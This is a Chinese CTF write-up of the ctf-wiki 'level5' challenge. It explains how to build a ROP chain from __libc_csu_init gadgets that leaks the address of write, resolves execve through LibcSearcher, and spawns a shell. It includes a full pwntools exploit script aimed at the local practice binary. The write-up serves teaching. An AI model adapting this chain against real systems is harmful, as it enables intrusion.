



#level5（ctf-wiki）
 __libc_csu_init函数会对libc进行初始化，因此当我们找不到合适的与寄存器相关的gadgets时，我们可以从 __libc_csu_init入手寻找gadgets  
首先使用objdump观察__libc_csu_init  
  
  
运行一下程序  
发现是一个简单的输入程序  
  
调用了read函数读取输入  
那么首先利用pattern找到溢出点  
  
程序中没有system函数和\bin\sh字符串，所以需要通过输入的方式进行构造  
利用的四个步骤：  
1、通过溢出执行write函数泄露出write函数本身的地址，再跳回到main函数中继续执行。  
2、利用write函数的地址确定对应的libc版本，然后算出execve的位置。  
3、通过溢出执行read函数，将execve与关键字符串写入到bss段中，再跳回到main函数继续执行。  
4、通过溢出执行bss段内的execve函数。  
需要涉及到的知识点  
1、64位程序的前六个参数通过寄存器传递。%rdi，%rsi，%rdx，%rcx，%r8，%r9 用作函数参数，依次对应第1参数，第2参数。。。  
2、read函数可以进行输入，write函数可以进行输出，fd=0为标准输入，df=1为标准输出。  

完整代码  
```
from pwn import *
from LibcSearcher import *
context.terminal = ['gnome-terminal','-x','sh','-c']
level5 = ELF("./level5")
sh = process("./level5")
bss_base = level5.bss()

write_got = level5.got['write']
read_got = level5.got['read']
main_addr = level5.symbols['main']
csu_mov_addr = 0x0000000000400600   #  mov rdx, r13 ;mov rsi, r14 ;mov edi, r15d ;call qword ptr [r12+rbx*8];add rbx, 1;cmp rbx, rbp;jnz hort loc_400600;
csu_pop_addr = 0x000000000040061A    #pop rbx; pop rbp;pop r12;pop r13;pop r14;pop r15;
payload1 = 'a' * 136
payload1 += p64(csu_pop_addr) + p64(0) +p64(1) + p64(write_got) + p64(8) + p64(write_got) + p64(1)
payload1 += p64(csu_mov_addr)
payload1 += 'a' * 56
payload1 += p64(main_addr)
sh.recvuntil('Hello, World\n')
sh.send(payload1)
sleep(1)
write_addr = u64(sh.recv(8))
print hex(write_addr)
libc = LibcSearcher('write',write_addr)
libc_base = write_addr - libc.dump('write')
execve_addr = libc_base + libc.dump('execve')
print hex(execve_addr)

payload2 = 'a' * 136
payload2 += p64(csu_pop_addr) + p64(0) +p64(1) + p64(read_got) + p64(16) + p64(bss_base) + p64(0)
payload2 += p64(csu_mov_addr)
payload2 += 'a' * 56
payload2 += p64(main_addr)
sh.send(payload2)

payload3 = p64(execve_addr) + '/bin/sh\x00'
sh.send(payload3)
sh.recvuntil('Hello, World\n')

payload4 = 'a' * 136
payload4 += p64(csu_pop_addr) + p64(0) +p64(1) + p64(bss_base) + p64(0) + p64(0) + p64(bss_base+8)
payload4 += p64(csu_mov_addr)
payload4 += 'a' * 56
payload4 += p64(main_addr)
sh.send(payload4)
sh.interactive()
```